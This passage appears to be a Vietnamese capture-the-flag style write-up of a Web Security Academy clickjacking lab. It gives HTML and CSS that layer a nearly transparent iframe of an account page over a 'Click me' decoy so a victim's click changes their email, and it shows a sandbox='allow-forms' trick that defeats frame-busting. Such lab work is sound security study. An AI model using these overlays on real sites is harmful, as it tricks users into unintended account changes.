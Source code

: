 Craft đoạn CSS để thẻ iframe nằm trên thẻ div có nội dung là Click me để khi victim bấm Click me sẽ thực chất là bấm và iframe, đồng thời set opacity thấp để victim không nhìn thấy iframe.

```jsx
<style>
    iframe {
        position:relative;
        width:700px ;
        height: 500px;
        opacity: 0.1;
        z-index: 1;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae4007304c44b4fc0db48e000eb007e.web-security-academy.net/my-account?email=a@a.a"></iframe>
```

Nhận thấy a không thể frame website như bình thường

![Untitled](writeup_media/Untitled%2023.png)

Tuy nhiên khi dùng thuộc tính `sandbox="allow-forms"` của thẻ iframe, ta lại có thể frame web `/my-account`

Chỉnh thuộc tính `top` và `left` của thẻ div để nó trùng với nút Update email

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 1;
    }

    div {
        position: absolute;
        top: 450px;
        left: 80px;
    }
</style>
```